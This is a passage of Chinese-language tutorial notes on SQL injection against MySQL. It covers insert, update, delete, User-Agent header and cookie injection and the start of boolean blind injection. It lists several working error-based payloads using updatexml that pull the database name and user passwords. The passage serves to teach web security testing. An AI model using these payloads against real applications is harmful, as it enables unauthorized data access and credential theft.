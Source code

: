     ![img](/image/sql/wps2.jpg) 

    \3. 爆内容

    ' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or' 等同

    ' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or '1'='1''

- uodate注入

  - 与insert注入的方法大体相同，区别在于update用于用户登陆端，insert用于用于用户注册端

    ' or updatexml(0,concat(0x7e,(database())),0) or'

- dalete注入

  - 一般应用于前后端发贴、留言、用户等相关删除操作，点击删除按钮时可通过Brup Suite抓包，对数据包相关delete参数进行注入

    delete from message where id=56 or updatexml(2,concat(0x7e,(database())),0)

- http header注入

  - User-Agent输入payload Mozilla' or updatexml(1,concat(0x7e,database ()),0) or 'html>

- cookie注入

  - 如果后端获取Cookie后放在数据库中进行拼接，那么这也将是一个SQL注入点
  - 在 ant[uname]=admin后添加一个’观察反馈的MYSQL的语法报错，发现了存在SQL注入漏洞，在设置Payload 'and updatexml (1,concat(0x7e,database()),0)#,观察报错和之前是否相同

- 盲注(base on boolian)、盲注(base on time)

  - 布尔盲注

    - 在SQL注入过程中，SQL语句执行选择后，选择的数据不能回显到前端，我们需要使用一些特殊的方法进行判断或尝试，这个过程称为盲注。

      输入语句select ascii(substr(database(),1,1))>xx;通过对比ascii码的长度，判断出数据库表名的第一个字符。

      **注: substr()函数**
